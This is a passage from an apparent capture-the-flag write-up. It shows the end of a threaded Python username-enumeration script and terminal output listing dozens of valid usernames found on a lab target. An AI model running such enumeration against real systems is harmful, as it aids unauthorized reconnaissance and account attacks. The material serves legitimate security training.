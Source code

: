 ```py
        thread = Thread(target=enumerater.sendRequest, args=(uid,))
        thread.start()

        # You can adjust how fast of each thread. 0.02 is recommended.
        sleep(0.02)

if __name__ == "__main__":
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.25|15:48:17(HKT)]
└>  python3 enum_username.py 
[+] Found valid username: bigpaul
[+] Found valid username: Wannabe_Hacker
[+] Found valid username: SarahHunt
[+] Found valid username: bubbaBIGFOOT
[+] Found valid username: jscale
[+] Found valid username: Sosaxvector
[+] Found valid username: BlackCat
[+] Found valid username: slithersloth
[+] Found valid username: Jackwon
[+] Found valid username: PalacerKing
[+] Found valid username: ArnoldBagger
[+] Found valid username: DotHaxer
[+] Found valid username: DrBert
[+] Found valid username: Tonynull
[+] Found valid username: StaceyLacer
[+] Found valid username: SnakeSolid
[+] Found valid username: CrazyChris
[+] Found valid username: zample
[+] Found valid username: Linda_Kale
[+] Found valid username: BrucePrince
[+] Found valid username: Xavier
[+] Found valid username: AimsGregger
[+] Found valid username: Carl_Dee
[+] Found valid username: Paulie
[+] Found valid username: Daniel
[+] Found valid username: batmanZero
[+] Found valid username: Mr_nickapic
[+] Found valid username: TonyMontana
[+] Found valid username: LucyRob
[+] Found valid username: CaseBrax
[+] Found valid username: BlueMan
[+] Found valid username: Willis
[+] Found valid username: BracketBell
[+] Found valid username: SandraJannit
[+] Found valid username: Ellie
[+] Found valid username: biggieballo
[+] Found valid username: john
[+] Found valid username: Baggle
[+] Found valid username: Golderg
[+] Found valid username: JackBlack
[+] Found valid username: Anderson
[+] Found valid username: siunam
```
